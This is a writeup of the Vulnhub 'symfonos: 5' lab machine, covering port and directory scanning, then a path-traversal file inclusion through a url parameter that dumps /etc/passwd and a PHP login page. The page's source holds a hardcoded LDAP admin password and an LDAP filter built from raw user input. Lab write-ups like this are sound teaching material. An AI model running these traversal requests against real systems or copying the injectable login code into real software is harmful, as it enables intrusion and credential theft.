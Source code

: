 # Vulnhub | symfonos: 5 Writeup

One more great symfonos box, that taught me something new! You can download the machine from here : [link](https://www.vulnhub.com/entry/symfonos-5,415/)

Table of contents :
+ 0x01 Enumeration
+ 0x02 Exploitation
+ 0x03 Privilege Escalation

# 0x01 Enumeration

As always we start with a nmap scan.

```
[root@pwn4magic]:~/Desktop# nmap -sC -sV -p- 192.168.1.13
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-12 23:51 EET
Nmap scan report for symfonos5.zte.com.cn (192.168.1.13)
Host is up (0.00015s latency).
Not shown: 65531 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 16:70:13:77:22:f9:68:78:40:0d:21:76:c1:50:54:23 (RSA)
|   256 a8:06:23:d0:93:18:7d:7a:6b:05:77:8d:8b:c9:ec:02 (ECDSA)
|_  256 52:c0:83:18:f4:c7:38:65:5a:ce:97:66:f3:75:68:4c (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
636/tcp open  ldapssl?
MAC Address: 00:0C:29:9F:94:5E (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Hmm.. LDAP interesting, mb will be userful later! Let's continue by enumerating the webserver. Let's run a gobuster scan.

```
[root@pwn4magic]:~/Desktop# gobuster dir -q -u http://192.168.1.13/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .php,.txt
/home.php (Status: 302)
/static (Status: 301)
/admin.php (Status: 200)
/logout.php (Status: 302)
/portraits.php (Status: 200)
/server-status (Status: 403)
```

Alright, i tried some stuff on `/admin.php` but nothing useful. `/home.php` is the key. `/home.php` redirects you to `/admin.php` so we'll use CURL to bypass that.

```html
[root@pwn4magic]:~/Desktop# curl --path-as-is http://192.168.1.13/home.php
<html>
<head>
<link rel="stylesheet" type="text/css" href="/static/bootstrap.min.css">
</head>
<body>
<nav class="navbar navbar-expand-lg navbar-dark bg-dark">
  <a class="navbar-brand" href="home.php">symfonos</a>
  <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarColor02" aria-controls="navbarColor02" aria-expanded="false" aria-label="Toggle navigation">
    <span class="navbar-toggler-icon"></span>
  </button>

  <div class="collapse navbar-collapse" id="navbarColor02">
    <ul class="navbar-nav mr-auto">
      <li class="nav-item">
        <a class="nav-link" href="home.php">Home</a>
      </li>
      <li class="nav-item">
        <a class="nav-link" href="home.php?url=http://127.0.0.1/portraits.php">Portraits</a>
      </li>
      <li class="nav-item">
        <a class="nav-link" href="logout.php">Logout</a>
      </li>
    </ul>
  </div>
</nav><br />
<center>
<h3>Under Developement</h3></center>
</body>
```

We can see this `home.php?url=http://127.0.0.1/portraits.php` parameter. Let's try LFI.

```
[root@pwn4magic]:~/Desktop# curl --path-as-is http://192.168.1.13/home.php?url=../../../../etc/passwd
---HTML SHITS------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
</center>
</body>
```

No users that's weird.. let's try to read admin.php source code.

```php
[root@pwn4magic]:~/Desktop# curl --path-as-is http://192.168.1.13/home.php?url=../../../../var/www/html/admin.php
----HTML SHITS----
<?php
session_start();

if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
    header("location: home.php");
    exit;
}

function authLdap($username, $password) {
  $ldap_ch = ldap_connect("ldap://172.18.0.22");

  ldap_set_option($ldap_ch, LDAP_OPT_PROTOCOL_VERSION, 3);

  if (!$ldap_ch) {
    return FALSE;
  }

  $bind = ldap_bind($ldap_ch, "cn=admin,dc=symfonos,dc=local", "qMDdyZh3cT6eeAWD");

  if (!$bind) {
    return FALSE;
  }

  $filter = "(&(uid=$username)(userPassword=$password))";
  $result = ldap_search($ldap_ch, "dc=symfonos,dc=local", $filter);

  if (!$result) {
    return FALSE;
  }

  $info = ldap_get_entries($ldap_ch, $result);

  if (!($info) || ($info["count"] == 0)) {
    return FALSE;
  }

  return TRUE;

}

if(isset($_GET['username']) && isset($_GET['password'])){

$username = urldecode($_GET['username']);
$password = urldecode($_GET['password']);

$bIsAuth = authLdap($username, $password);

if (! $bIsAuth ) {
	$msg = "Invalid login";
} else {
        $_SESSION["loggedin"] = true;
	header("location: home.php");
	exit;
}
}
?>
```
